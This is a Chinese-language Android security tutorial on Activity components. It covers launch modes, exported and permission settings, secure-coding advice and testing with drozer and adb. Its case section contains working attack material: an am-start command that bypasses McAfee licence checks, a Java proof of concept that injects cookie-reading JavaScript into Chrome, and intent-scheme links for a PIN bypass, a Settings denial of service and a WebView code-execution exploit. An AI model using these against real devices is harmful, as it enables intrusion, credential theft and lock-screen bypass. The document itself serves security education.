








# Android Activtity Security

----------

**Author:瘦蛟舞**

**Create:20141114 Update:20180111**


## 0x00 科普

----------

Android每一个Application都是由Activity、Service、content Provider和Broadcast Receiver等Android的基本组件所组成，其中Activity是实现应用程序的主体，它承担了大量的显示和交互工作，甚至可以理解为一个"界面"就是一个Activity。

Activity是为用户操作而展示的可视化用户界面。比如说，一个activity可以展示一个菜单项列表供用户选择，或者显示一些包含说明的照片。一个短消息应用程序可以包括一个用于显示做为发送对象的联系人的列表的activity，一个给选定的联系人写短信的activity以及翻阅以前的短信和改变设置的activity。尽管它们一起组成了一个内聚的用户界面，但其中每个activity都与其它的保持独立。每个都是以Activity类为基类的子类实现。

一个应用程序可以只有一个activity，或如刚才提到的短信应用程序那样，包含很多个。每个activity的作用，以及其数目，自然取决于应用程序及其设计。一般情况下，总有一个应用程序被标记为用户在应用程序启动的时候第一个看到的。从一个activity转向另一个的方式是靠当前的activity启动下一个。

## 0x01 知识要点

----------

参考：[http://developer.android.com/guide/components/activities.html](http://developer.android.com/guide/components/activities.html)
 
**生命周期**


 
**启动方式**

显示启动

配置文件中注册组件

```xml
<activity android:name=".ExampleActivity" android:icon="@drawable/app_icon">
    <intent-filter>
        <action android:name="android.intent.action.MAIN" />
        <category android:name="android.intent.category.LAUNCHER" />
    </intent-filter>
</activity>
```

直接使用intent对象指定application以及activity启动

```java
Intent intent = new Intent(this, ExampleActivity.class);
startActivity(intent);
```

> 未配置intent-filter的activity只能使用显示启动。

> 私有Activity推荐使用显示启动。

隐式启动

```java
Intent intent = new Intent(Intent.ACTION_SEND);
intent.putExtra(Intent.EXTRA_EMAIL, recipientArray);
startActivity(intent);
```


**加载模式launch mode**

Activity有四种加载模式：

- **standard**:默认行为。每次启动一个activity，系统都会在目标task新建一个实例。
- **singleTop**:如果目标activity的实例已经存在于目标task的栈顶，系统会直接使用该实例，并调用该activity的onNewIntent()（不会重新create）
- **singleTask**:在一个新任务的栈顶创建activity的实例。如果实例已经存在，系统会直接使用该实例，并调用该activity的onNewIntent()（不会重新create）
- **singleInstance**:和"singleTask"类似，但在目标activity的task中不会再运行其他的activity，在那个task中永远只有一个activity。

设置的位置在AndroidManifest.xml文件中activity元素的android:launchMode
属性：

```
<activity android:name="ActB" android:launchMode="singleTask"></activity>
```

Activity launch mode 用于控制创建task和Activity实例。默认“standard“模式。Standard模式一次启动即会生成一个新的Activity实例并且不会创建新的task，被启动的Activity和启动的Activity在同一个栈中。当创建新的task时，intent中的内容有可能被恶意应用读取所以建议若无特别需求使用默认的standard模式即不配置launch mode属性。launchMode能被Intent 的flag覆盖。

**taskAffinity**

android系统中task管理Activity。Task的命名取决于root Activity的affinity。

默认情况下，app中的每个Activity都使用app的包名作为affinity。而Task的分配取决于app，故默认情况下一个app中所有的Activity属于同一task。要改变task的分配，可以在AndroidManifest.xml文件中设置affinity的值，但是这样做会有不同task启动Activity携带的intent中的信息被其他应用读取的风险。

**FLAG\_ACTIVITY\_NEW\_TASK**

intent flag中一个重要的flag

启动Activity时通过setFlags()或者addFlags()方法设置intent的flags属性能够改变launch mode，FLAG\_ACTIVITY\_NEW\_TASK标记代表创建新的task（被启动的Activity既不在前台也不在后台）。FLAG\_ACTIVITY\_MULTIPLE\_TASK标记能和FLAG\_ACTIVITY\_NEW\_TASK同时设置。这种情况下必会创建的task，所以intent中不应携带敏感数据。

**Task**

Activity承担了大量的显示和交互工作，从某种角度上将，我们看见的应用程序就是许多个Activity的组合。为了让这许多 Activity协同工作而不至于产生混乱，Android平台设计了一种堆栈机制用于管理Activity，其遵循先进后出的原则，系统总是显示位于栈顶的Activity，位于栈顶的Activity也就是最后打开的Activity。

Task是指将相关的Activity组合到一起，以Activity Stack的方式进行管理。从用户体验上讲，一个“应用程序”就是一个Task，但是从根本上讲，一个Task是可以有一个或多个Android Application组成的

如果用户离开一个task很长时间，系统会清理栈顶以下的activity，这样task被从新打开时，栈顶activity就被还原了。


**Intent Selector**

多个Activity具有相同action时，当此调用此action时会弹出一个选择器供用户选择。

**权限**

	android:exported

一个Activity组件能否被外部应用启动取决于此属性，设置为true时Activity可以被外部应用启动，设置为false则不能，此时Activity只能被自身app启动。（同userid或者root/system也能启动）

没有配置intent-filter属性exported默认为false（没有filter只能通过明确的类名来启动activity故相当于只有程序本身能启动），配置了intent-filter属性exported默认为true。

exported属性只是用于限制Activity是否暴露给其他app，通过配置文件中的权限申明也可以限制外部启动activity。

	android:permission

[http://developer.android.com/intl/zh-cn/guide/topics/manifest/permission-element.html](http://developer.android.com/intl/zh-cn/guide/topics/manifest/permission-element.html)


 


等级|说明
------------ | -------------
normal|默认值,调用者无需操作.
dangerous|调用者需在配置清单中申明此权限.
signature|调用者需有相同签名.
signatureOrSystem|调用者需system uid或者具有相同签名.

```xml
<!-- *** POINT 1 *** Define a permission with protectionLevel="signature" -->
<permission
android:name="org.jssec.android.permission.protectedapp.MY_PERMISSION"
android:protectionLevel="signature" />
<application
android:icon="@drawable/ic_launcher"
android:label="@string/app_name" >
<!-- *** POINT 2 *** For a component, enforce the permission with its permission attribute -->
<activity
android:name=".ProtectedActivity"
android:exported="true"
android:label="@string/app_name"
android:permission="org.jssec.android.permission.protectedapp.MY_PERMISSION" >
<!-- *** POINT 3 *** If the component is an activity, you must define no intent-filter -->
</activity>
```


**关键方法**

- onCreate(Bundle savedInstanceState)
- setResult(int resultCode, Intent data)
- startActivity(Intent intent)
- startActivityForResult(Intent intent, int requestCode)
- onActivityResult(int requestCode, int resultCode, Intent data)
- setResult (int resultCode, Intent data)
- getStringExtra (String name)
- addFlags(int flags)
- setFlags(int flags)
- setPackage(String packageName)
- getAction()
- setAction(String action)
- getData()
- setData(Uri data)
- getExtras()
- putExtra(String name, String value)

## 0x02 Activity分类

----------

Activity类型和使用方式决定了其风险和防御方式,故将Activity分类如下：
Private、Public、Parter、In-house



###private activity

----------

私有Activity不应被其他应用启动相对是安全的

创建activity时：

1、不指定taskAffinity //task管理activity。task的名字取决于根activity的affinity。默认设置中Activity使用包名做为affinity。task由app分配，所以一个应用的Activity在默认情况下属于相同task。跨task启动Activity的intent有可能被其他app读取到。

2、不指定lunchMode //默认standard，建议使用默认。创建新task时有可能被其他应用读取intent的内容。

3、设置exported属性为false

4、谨慎处理从intent中接收的数据，不管是否内部发送的intent

5、敏感信息只能在应用内部操作

使用activity时：

6、开启activity时不设置FLAG\_ACTIVITY\_NEW\_TASK标签  //FLAG_ACTIVITY_NEW_TASK标签用于创建新task（被启动的Activity并未在栈中）。

7、开启应用内部activity使用显示启动的方式

8、当putExtra()包含敏感信息目的应是app内的activity

9、谨慎处理返回数据，即可数据来自相同应用

###public activity

----------

公开暴露的Activity组件，可以被任意应用启动

创建activity：

1、设置exported属性为true

2、谨慎处理接收的intent

3、有返回数据时不应包含敏感信息

使用activity：

4、不应发送敏感信息

5、当收到返回数据时谨慎处理

Parter、in-house部分参阅[http://www.jssec.org/dl/android_securecoding_en.pdf](http://www.jssec.org/dl/android_securecoding_en.pdf)

**安全建议**

- app内使用的私有Activity不应配置intent-filter，如果配置了intent-filter需设置exported属性为false。
- 使用默认taskAffinity
- 使用默认launchMode
- 启动Activity时不设置intent的FLAG\_ACTIVITY\_NEW\_TASK标签
- 谨慎处理接收的intent以及其携带的信息
- 签名验证内部（in-house）app
- 当Activity返回数据时候需注意目标Activity是否有泄露信息的风险
- 目的Activity十分明确时使用显示启动
- 谨慎处理Activity返回的数据，目的Activity返回的数据有可能是恶意应用伪造的
- 验证目标Activity是否恶意app，以免受到intent欺骗，可用hash签名验证
- When Providing an Asset Secondhand, the Asset should be Protected with the Same Level of Protection
- 尽可能的不发送敏感信息，应考虑到启动public Activity中intent的信息均有可能被恶意应用窃取的风险


## 0x04 测试方法

----------

查看activity：

- 反编译查看配置文件AndroidManifest.xml中activity组件（关注配置了intent-filter的及未设置export=“false”的）
- 直接用RE打开安装后的app查看配置文件
- Drozer扫描:run app.activity.info -a packagename
- 动态查看：logcat设置filter的tag为ActivityManager

启动activity：

- adb shell：am start -a action -n package/componet
- drozer: run app.activity.start --action android.action.intent.VIEW ...
- 自己编写app调用startActiviy()或startActivityForResult(),或者利用next-intent.
- 浏览器intent scheme远程启动:[Intent scheme URL attack](https://github.com/WooyunDota/DroidDrops/blob/master/2014/Android%20URL%20Scheme%20Attack.md)

## 0x05 案例

----------

**案例1：绕过本地认证**

http://www.wooyun.org/bugs/wooyun-2010-048502
 
绕过McAfee的key验证，免费激活。

	$ am start -a android.intent.action.MAIN -n com.wsandroid.suite/com.mcafee.main.MfeMain


 
**案例2：本地拒绝服务**

http://www.wooyun.org/bugs/wooyun-2010-060423

http://www.wooyun.org/bugs/wooyun-2010-036581

http://www.wooyun.org/bugs/wooyun-2014-048176

http://www.wooyun.org/bugs/wooyun-2014-048501

http://www.wooyun.org/bugs/wooyun-2014-077688 (涉及fragment)

**案例3：界面劫持**

http://www.wooyun.org/bugs/wooyun-2012-05478

 
**案例4：UXSS**

漏洞存在于Chrome Android版本v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入js代码到任意域. 部分 AndroidManifest.xml配置文件如下

```xml
<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
        <intent-filter>
            <action android:name="android.intent.action.VIEW" />
            <category android:name="android.intent.category.DEFAULT" />
        </intent-filter>
</activity>
```

Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 <intent-filter>但是未设置  "android:exported" 为 "false". 恶意应用先调用该类并设置data为” http://google.com” 再次调用时设置data为恶意js例如'javascript:alert(document.cookie)', 恶意代码将在http://google.com域中执行. "com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. 
POC如下

```java
public class TestActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent i = new Intent();
                ComponentName comp = new ComponentName(
                                 "com.android.chrome",
                                 	"com.google.android.apps.chrome.SimpleChromeActivity");
                i.setComponent(comp);
                i.setAction("android.intent.action.VIEW");
                Uri data = Uri.parse("http://google.com");
                i.setData(data);
           
                startActivity(i);
           
	                try {
                        Thread.sleep(5000);
                        }
 	                      catch (Exception e) {}
          
                data = Uri.parse("javascript:alert(document.cookie)");	
                i.setData(data);
           
                startActivity(i);
    }
}
```
 
**案例5：隐式启动intent包含敏感数据**

暂缺可公开案例,攻击模型如下图。



**案例6：Fragment注入(绕过PIN+拒绝服务)**

Fragment这里只提一下，以后可能另写一篇。

```javascirpt
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
16、bypass Pin android 3.0-4.3 （selector）
</a><br>
```



```javascript
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
17、fragment dos android 4.4 (selector)
</a><br>
```



**案例7:webview RCE**

```javascript
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
15、驴妈妈代码执行（fixed）
</a><br>
```



## 0x06 参考

----------

[http://www.jssec.org/dl/android_securecoding_en.pdf](http://www.jssec.org/dl/android_securecoding_en.pdf)